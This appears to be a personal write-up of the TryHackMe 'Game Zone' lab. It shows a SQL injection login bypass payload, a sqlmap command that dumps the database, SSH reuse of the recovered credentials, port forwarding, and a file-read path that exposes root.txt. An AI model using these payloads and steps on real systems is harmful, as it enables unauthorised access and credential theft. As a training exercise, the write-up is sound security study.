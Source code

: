 ```yaml
---
title: GameZone-writeup-THM
date: 2023-12-28 18:00:00
categories: [room, easy]
tags: [linux, sqli]     # TAG names should always be lowercase
image: https://images.unsplash.com/photo-1483335584694-fb0f729b0f9c?q=80&w=2072&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
---
```

My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/gamezone">Game Zone</a>" 

We are going to startwith a scan:

```bash
nmap <your_ip>

Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-28 10:50 EST
Nmap scan report for 10.10.108.222
Host is up (0.060s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE    SERVICE
22/tcp  open     ssh
80/tcp  open     http
259/tcp filtered esro-gen

Nmap done: 1 IP address (1 host up) scanned in 9.93 seconds
```

First of all we access the web page and see the hitman,

if you don’t know his name, just use google images.

Then we see a login page, and try using SQLi

We do this by adding `' or 1=1 — -` instead of the username

By doing this we can access the site.

Now we are going to use sqlmap to dump the entire database!

Before that we need to capture the request with burp.

You can do that just by 

- activating the proxy,
- capturing the request in the game zone portal
- copy it into a txt file,
- And put it into sqlmap like that:

```bash
sqlmap -r request.txt --dbms=mysql --dump --threads=5
```

Now that we have a username and password, I am going to use ssh.

Then we will use a tool called **ss** to investigate sockets running on a host.

If we run **ss -tulpn** it will tell us what socket connections are running

| Argument | Description |
| --- | --- |
| -t | Display TCP sockets |
| -u | Display UDP sockets |
| -l | Displays only listening sockets |
| -p | Shows the process using the socket |
| -n | Doesn't resolve service names |

We see that is running a servvice on port 10000 but is filtered by the firewall.

So we go back to our machine and run **`ssh -L 10000:localhost:10000 <username>@<ip>`**

Once we are in we can open our browser and go to localhost:1000,

here we are met with a login page.

I just use the credential that we altready have and they worked.

After that we just need to use metasploit, to search the exploit and run it using the options that he wants.

I’ve tried for long enough to make it work but I didn’t succeded, 

in the end I searched in Exploit DB and read what the exploit does, I found out that it just allows you to exeute arbitrary commands in the `/file/show.cgi` component

Viewing the hint I know that the flag is in root.txt, so I just had to do this:

```bash
http://localhost:10000/file/show.cgi/root/root.txt
```
